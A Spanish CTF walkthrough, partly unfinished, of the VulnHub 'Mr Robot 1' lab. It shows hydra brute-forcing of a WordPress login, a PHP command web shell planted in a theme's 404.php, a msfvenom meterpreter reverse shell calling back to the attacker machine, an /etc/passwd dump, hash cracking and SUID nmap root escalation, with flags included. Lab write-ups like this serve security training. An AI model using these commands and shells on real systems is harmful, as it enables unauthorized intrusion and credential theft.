



# MR ROBOT 1

```
                          _           _   
 _ __ ___  _ __ _ __ ___ | |__   ___ | |_ 
| '_ ` _ \| '__| '__/ _ \| '_ \ / _ \| __|
| | | | | | |  | | | (_) | |_) | (_) | |_ 
|_| |_| |_|_|  |_|  \___/|_.__/ \___/ \__|
```                                          

**Date WriteUp**: DD / MM / YYYY
**Difficulty**: beginner-intermediate

## MACHINE
**Name**: Mr Robot 1
**Date release**: 28 Jun 2016
**Author**: Leon Johnson
**Series**: Mr-Robot

**File Information**
- **Filename**: mrRobot.ova
- **File size**: 704MB

**Download**
mrRobot.ova (Size: 704MB)
Download (Mirror): https://download.vulnhub.com/mrrobot/mrRobot.ova

**Checksum**
- **MD5**: BC02C42815EAC4E872D753E1FD12DDC8
- **SHA1**: DC0EB84DA4C62284C688590EE092868CE84A09AB

**Description**

Based on the show, Mr. Robot.

This VM has three keys hidden in different locations. Your goal is to find all three. Each key is progressively difficult to find.

The VM isn't too difficult. There isn't any advanced exploitation or reverse engineering. The level is considered beginner-intermediate.

Resolucion 

Usaré una distribucion Kali OS como maquina atacante.


## Fase de Fingerprinting / Reconocimiento (Reconnaissance): 

### Descubrimiento de IP objetivo en la red

```bash
sudo netdiscover -r 10.0.2.0/24 -i eth0
```


### Descubrimiento de Puertos en objetivo

```bash
sudo nmap -sS -sC -sV -O 10.0.2.18
```

```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-22 04:49 EDT
Nmap scan report for 10.0.2.18
Host is up (0.00097s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open   ssl/http Apache httpd
|_http-server-header: Apache
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
|_http-title: Site doesn't have a title (text/html).
MAC Address: 08:00:27:ED:86:2F (Oracle VirtualBox virtual NIC)
Aggressive OS guesses: Linux 3.10 - 4.11 (98%), Linux 3.2 - 4.9 (94%), Linux 3.2 - 3.8 (93%), Linux 3.13 or 4.2 (92%), Linux 4.2 (92%), Linux 4.4 (92%), Linux 3.18 (92%), Linux 3.13 (91%), Linux 3.16 - 4.6 (91%), Linux 2.6.26 - 2.6.35 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.13 seconds
```

### Resumen de los hallazgos.

PORT    | STATE  | SERVICE  | VERSION
--------|--------|----------|-------------
22/tcp  | closed | ssh      |
80/tcp  | open   | http     | Apache httpd
443/tcp | open   | ssl/http | Apache httpd

Linux 3.10 - 4.11 (98%)

## Fase de Footprinting / Exploración (Scanning):

### Exploracion puerto 80

Navegacion en el puerto 80 presenta una animacion de estilo mr robot y nos da un menu donde podemos realizar ciertas acciones, ver videos, etc.


Realizo una busqueda de archivos y carpetas con diferentes herramientas con los siguientes comandos:


```bash
dirsearch -u http://10.0.2.18:80 -i200    
```

```bash
[05:15:27] 200 -    0B  - /favicon.ico                                      
[05:15:48] 200 -  504KB - /intro                                            
[05:15:55] 200 -    7KB - /license                                          
[05:15:55] 200 -    7KB - /license.txt                                      
[05:16:42] 200 -    4KB - /readme                                           
[05:16:42] 200 -    4KB - /readme.html                                      
[05:16:46] 200 -   41B  - /robots.txt                                       
[05:16:58] 200 -    0B  - /sitemap                                          
[05:16:58] 200 -    0B  - /sitemap.xml
[05:16:58] 200 -    0B  - /sitemap.xml.gz
[05:24:43] 200 -   21B  - /wp-admin/admin-ajax.php                          
[05:24:44] 200 -    0B  - /wp-config.php                                    
[05:24:44] 200 -    0B  - /wp-content/                                      
[05:24:45] 200 -    0B  - /wp-content/plugins/google-sitemap-generator/sitemap-core.php
[05:24:46] 200 -    0B  - /wp-cron.php                                      
[05:24:46] 200 -    1KB - /wp-login
[05:24:46] 200 -    1KB - /wp-login.php
[05:24:46] 200 -    1KB - /wp-login/
```


```
nikto -h 10.0.2.18:80
```



```
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          10.0.2.18
+ Target Hostname:    10.0.2.18
+ Target Port:        80
+ Start Time:         2024-05-22 05:30:52 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render ent of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-ility-scanner/vulnerabilities/missing-content-type-header/
+ /fflF32uN.action: Retrieved x-powered-by header: PHP/5.5.29.
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ /index: Uncommon header 'tcn' found, with contents: list.
+ /index: Apache mod_negotiation is enabled with MultiViews, which allows attackers to easilyorce file names. The following alternatives for 'index' were found: index.html, index.php. Se//www.wisec.it/sectou.php?id=4698ebdc59d15,https://exchange.xforce.ibmcloud.com/vulnerabiliti
+ /admin/: This might be interesting.
+ /image/: Drupal Link header found with value: <http://10.0.2.18/?p=23>; rel=shortlink. See: https://www.drupal.org/                                                                     
+ /wp-links-opml.php: This WordPress script reveals the installed version.                   
+ /license.txt: License file found may identify site software.                               
+ /admin/index.html: Admin login page/section found.                                         
+ /wp-login/: Cookie wordpress_test_cookie created without the httponly flag. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies                                              
+ /wp-login/: Admin login page/section found.                                                
+ /wordpress/: A Wordpress installation was found.                                           
+ /wp-admin/wp-login.php: Wordpress login found.                                             
+ /wordpress/wp-admin/wp-login.php: Wordpress login found.                                   
+ /blog/wp-login.php: Wordpress login found.                                                 
+ /wp-login.php: Wordpress login found.                                                      
+ /wordpress/wp-login.php: Wordpress login found.                                            
+ /#wp-config.php#: #wp-config.php# file found. This file contains the credentials.          
+ 8102 requests: 0 error(s) and 18 item(s) reported on remote host                           
+ End Time:           2024-05-22 05:35:20 (GMT-4) (268 seconds)                              
---------------------------------------------------------------------------                  
+ 1 host(s) tested
```

#### Resumen de resultados de la exploracion de directorios y ficheros

Se ha localizado lo siguiente que puede ser muy interesante de comprobar:

- archivo /robots.txt
- instalacion WordPress
  - /wordpress/wp-login.php Login de wordpress en pagina por defecto. (wp-login.php).
  - Archivo wp-config.php que podria contener las credenciales.
  - Archivo wp-links-opml.php que podria mostrar la version instalada.  
- archivo /license.txt

#### Comprobacion de los hallazgos de la exploracion en el puerto 80

##### Comprobacion del archivo robots.txt

He localizado un archivo robots.txt, compruebo su contenido.

Compruebo : [robots-txt-endpoint] [http] [info] http://10.0.2.6/robots.txt   


El archivo robots.txt contiene un archivo fsocity.dic y un archivo key-1-of-3-.txt

Descargo ambos archivos mediante el comando:

```bash
wget http://10.0.2.18:80/fsocity.txt

wget http://10.0.2.18:80/key-1-of-3.txt
```


Compruebo el contenido de los archivos.

```bash
cat fsocity.dict | more
```


Es un diccionario. Para ver cuantas lineas tiene el diccionario ejecuto el comando `cat fsocity.dict | wc -l` y nos da 858160 lineas.


Compruebo el fichero `key-1-of-3.txt`  y obtengo la primera de las flags.

```bash
cat key-1-of-3.txt | more
```


Obtengo la primera flag: **[073403c8a58a1f80d943455fb30724b9]**

##### Comprobacion de la instalacion Wordpress

Otro de los hallazgos ha sido que parece haber un Wordpress instalado en el servidor.

Compruebo el acceso atraves del navegador


El archivo `wp-links-opml.php` pacere que revela la version instalada de wordpress.


Al comprobarlo nos da la version 4.3.33 de WordPress.

**Escaneo WPSCAN**


```bash
wpscan --url http://10.0.2.18 
```


Como tengo el diccionario que encontre en robots.txt lo uso para hacer fuerza bruta en el login de wordpress, pero para ello voy a comprobar que el diccionario no tenga duplicados y si los tuviera eliminarlos teniendo un diccionario mas limpio.

```bash
sort fsocity.dic | uniq | wc -l
```


Vemos que se obtienen 11451 lineas unicas. Asi que creamos un fichero fsocity.dic.uniq con el comando 


```bash
sort fsocity.dic | uniq > fsocity.dic.uniq
```


Con esto he obtenido un diccionario sin repeticiones de solo 11451 lineas, mucho mas manejable que las 858160 lineas originales.

Voy a intentar realizar fuerza bruta contra el login de wordpress usando hydra con el diccionario mejorado.

Tiro el comando siguiente con el que realizo un ataque usando la clave "wedontcare" (no me importa) ya que lo que busco es saber el usuario para poder despues intentar romper su clave.

```bash
hydra -vV -L fsocity.dic.uniq -p wedontcare 10.0.2.18 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'
```


Encuentro un nombre valido con este diccionario: **elliot**


Uso hydra de nuevo para intentar romper la clave del usuario intentando la fuerza bruta con el mismo diccionario.

```bash
hydra -vV -l elliot -P fsocity.dic.uniq 10.0.2.18 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=is incorrect'
```



Al poco tiempo de comenzar el ataque se detecta la contraseña del usuario: **ER28-0652**


He conseguido las siguientes credenciales:

Usuario | Password
--------|----------
elliot  | ER28-0652

##### Comprobacion de archivo license.txt

Descargo el fichero license.txt con el comando wget 10.0.2.18:80/license.txt


Una vez descargado compruebo el fichero.


Con estas claves puedo acceder al panel de administracion de wordpress, pero lo mas importante es que con esta credencial y usando el exploit adecuado podria cargar una shell.

Para lograr esto puedo buscar en metasploit para comprobar si existe un exploit para wordpress que me permita cargar una shell.

Cargo metasploit con `msfconsole` y realizo una busqueda con `search wordpress shell` y obtengo los siguientes resultados



Voy a usar `exploit/unix/webapp/wp_admin_shell_upload`, compruebo las opciones a configurar para poder realizar con exito el ataque.


Defino el nombre de usuario, la clave y el host remoto.

```bash
set USERNAME elliot
set PASSWORD ER28-0652
set RHOST 10.0.2.18
```


Creo una shell reversa desde msfvenom que apunte a mi maquina kali y al puerto 4444 con el comando:

```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.0.2.14 LPORT=4444 -f raw > /home/kali/desktop/mi_reverse_shell.php
```


Con el acceso al panel de administracion de wordpress subo el fichero generado.


No he podido aun realizar la carga de mi shell en la web ya que todas me exigen un formato de archivo en concreto. 

Se me ha ocurrido modificar un archivo legitimo del tema para que cuando cargue se ejecute la shell. Para ello voy a la seccion donde estan los temas, busco el tema activado y busco un archivo que solo se ejecute bajo ciertas circunstancias como puede ser una pagina 404 de error preestablecida.


Añado una minishell para ejecutar comandos que pase como parametros en la direccion de la pagina.

```php
<?php
if(isset($_REQUEST['cmd'])){
echo "<pre>";
$cmd = ($_REQUEST['cmd']);
system($cmd);
echo "</pre>";
die;
}
?>
```


Compruebo que funciona la nueva pagina 404.php y que carga un mensaje de como usar la minishell


Ejecuto un list de ficheros para comprobar el funcionamiento de la minishell y aparece el listado de ficheros del servidor.


Pruebo a leer el fichero passwd y compruebo que puedo verlo 


```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
syslog:x:101:104::/home/syslog:/bin/false
sshd:x:102:65534::/var/run/sshd:/usr/sbin/nologin
ftp:x:103:106:ftp daemon,,,:/srv/ftp:/bin/false
bitnamiftp:x:1000:1000::/opt/bitnami/apps:/bin/bitnami_ftp_false
mysql:x:1001:1001::/home/mysql:
varnish:x:999:999::/home/varnish:
robot:x:1002:1002::/home/robot:
```

Esta shell se me queda algo pequeña, por lo que busco en google php reverse shell y encuentro el [github de pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell.git)

Clono el repositorio para usarlo

```bash
git clone https://github.com/pentestmonkey/php-reverse-shell.git
```


Edito el fichero php-reverse-shell.php y veo que viene especificado en su interior que debo modificar.


Cambio los valores para las variables ip y puerto, por la ip de mi maquina kali y un puerto libre en mi maquina.


Una vez modificado los valores copio el contenido del fichero php-reverse-shell.php y lo pego en el fichero 404.php

Pongo mi maquina a la escucha en el puerto 4444


Y ahora visito la pagina 404.php para ejecutar la shell


---
---
---
---

Compruebo acceso


└─$ wpscan --url http://10.0.2.6 -P /home/kali/Downloads/fsocity.dic  -U 'elliot'


Nos da la clave: [SUCCESS] - elliot / ER28-0652 


**Escaneo dirb**

```
└─$ dirb http://10.0.2.6
```


#### Resumen de resultados puerto 80

Se detecta una instalacion de wordpress
Se detecta el acceso a wp-login.php 
Se detecta fichero robots.txt

Resultados interesantes:

```
[wordpress-login] [http] [info] http://10.0.2.6/wp-login.php
[wordpress-readme-file] [http] [info] http://10.0.2.6/readme.html
[robots-txt-endpoint] [http] [info] http://10.0.2.6/robots.txt
```

### Resumen de resultados de escaneos con nmap

### Escaneo de vulnerabilidades con vulscan

## Fase de Explotacion / Obtención de Acceso (Gaining Access):

### Puerto XX

## Lateral Movement

## Privilege Escalation


---

notas mentales

reducir el diccionario sin duplicados

sort fsocity.dic | uniq | wc -l 

hydra
hydra -vV -L fsocity.dic.uniq -p wedontcare 192.168.2.4 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'

-vV : Verbose
-L fsocity.dic.uniq : Try all the usernames from the file fsocity.dic.uniq
-p wedontcare : Use an unique password, it doesn’t matter (we’re only interested in the username for now)
192.168.2.4 : The IP of the machine we’re attacking
http-post-form : What we’re trying to brute force, here a HTTP POST form
‘/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username’
/wp-login.php : The path to where the form is located
log=^USER^&pwd=^PASS^&wp-submit=Log+In : The POST parameters to send. ^USER^ and ^PASS^ are placeholders that wiil be replaced with the actual values.
F=Invalid username : Consider an attempt as a failure (F) if the response contains the text Invalid username

Now we know there is a WordPress user named elliot. Let’s try to bruteforce his password using the same technique and word list, shall we?

$ hydra -vV -l elliot -P fsocity.dic.uniq vm http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=is incorrect'

$ msfconsole
msf > use exploit/unix/webapp/wp_admin_shell_upload

Here we go, a nice meterpreter shell. 🙂 Let’s spawn a TTY shell in it:

shell
Process 2138 created.
Channel 1 created.
python -c 'import pty; pty.spawn("/bin/sh")'
$ id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
$


$ ls /home/robot
key-2-of-3.txt password.raw-md5


$ cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b


./hashcat64.bin -a 0 -m 0 password.md5 /usr/share/wordlists/rockyou.txt -o cracked.txt


c3fcd3d76192e4007dfb496cca67e13b:abcdefghijklmnopqrstuvwxyz


$ su robot
Password: abcdefghijklmnopqrstuvwxyz


robot@linux:~$ cat /home/robot/key-2-of-3.txt
822c73956184f694993bede3eb39f959


Escalation

find / -perm -4000 -type f 2>/dev/null

NMap itself! An old version (3.81)

nmap --interactive

h
 ! <command> -- runs shell command given in the foreground

nmap> !whoami
root


nmap> !sh
# cd /root
# ls
firstboot_done key-3-of-3.txt
# cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4


